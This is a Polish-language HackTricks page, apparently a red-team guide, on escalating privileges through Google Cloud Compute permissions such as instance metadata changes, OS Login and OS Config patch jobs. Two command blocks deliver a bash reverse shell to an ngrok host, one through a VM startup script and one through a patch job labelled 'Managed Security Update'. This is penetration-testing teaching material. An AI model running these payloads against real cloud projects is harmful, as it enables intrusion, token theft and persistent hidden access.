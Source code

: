 # GCP - Compute Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieci) w GCP, sprawdź:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takich jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` dla SA przypisanego do instancji**, nawet jeśli SA jest już przypisany!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Dzięki temu uprawnieniu możesz **modyfikować** informacje o **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika** lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. W związku z tym będziesz mógł połączyć się przez SSH z dowolną instancją VM i ukraść GCP Service Account, z którym działa instancja.\
Ograniczenia:

* Zauważ, że GCP Service Accounts działające w instancjach VM domyślnie mają **bardzo ograniczony zakres**
* Będziesz musiał **móc skontaktować się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat, jak wykorzystać to uprawnienie, sprawdź:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Możesz również przeprowadzić ten atak, dodając nowy skrypt uruchamiający i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **te same uprawnienia co poprzednie uprawnienie**, ale dla konkretnych instancji zamiast całego projektu. **Te same exploity i ograniczenia jak w poprzedniej sekcji mają zastosowanie**.

### `compute.instances.setIamPolicy`

Ten rodzaj uprawnienia pozwoli ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia, nadużywając ich.

### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tym uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. **Nie będziesz miał uprawnień roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tym uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. Będziesz miał **uprawnienia roota** wewnątrz instancji.

{% hint style="success" %}
Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie maszyny wirtualnej z przypisanym Kontem Usługowym i kradzież tokena** konta usługi uzyskując dostęp do metadanych, aby eskalować uprawnienia do niego.

Skrypt exploita dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie łatania lub wdrożenie**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). To umożliwi ci poruszanie się w poziomie w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w projekcie.

Zauważ, że w tej chwili **nie potrzebujesz uprawnienia `actAs`** dla SA przypisanego do instancji.

Jeśli chcesz ręcznie wykorzystać to, będziesz musiał utworzyć albo [**zadanie łatania**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **lub** [**wdrożenie**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Aby uruchomić zadanie łatania: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Aby wdrożyć wdrożenie poprawki:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Narzędzie [patchy](https://github.com/rek7/patchy) mogło być używane w przeszłości do wykorzystania tej błędnej konfiguracji (ale teraz nie działa).

**Atakujący mógłby również nadużyć tego dla utrzymania dostępu.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Ominięcie Zakresów Dostępu

Pod tym linkiem znajdziesz kilka [**pomysłów na ominięcie zakresów dostępu**](../).

### Lokalna Eskalacja Uprawnień w instancji GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}
